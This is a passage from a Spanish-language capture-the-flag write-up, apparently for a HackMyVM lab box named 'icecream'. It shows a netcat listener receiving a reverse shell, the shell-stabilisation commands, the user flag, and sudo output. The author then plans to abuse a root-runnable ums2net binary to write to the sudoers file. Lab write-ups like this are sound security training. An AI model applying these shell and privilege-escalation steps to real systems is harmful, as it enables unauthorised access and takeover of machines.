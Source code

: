 Una vez echo esto si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.57] 55172
ice@icecream:~$ whoami
ice
```

Veremos que ha funcioando, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVaneraseroflove
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ice on icecream:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User ice may run the following commands on icecream:
    (ALL) NOPASSWD: /usr/sbin/ums2net
```

Vemos que podemos ejecutar el binario `ums2net` como el usuario `root`, por lo que haremos lo siguiente.

Con esto podremos escribir archivos en el sistema como `root`, por lo que vamos añadirnos en el archivo `sudoers`.
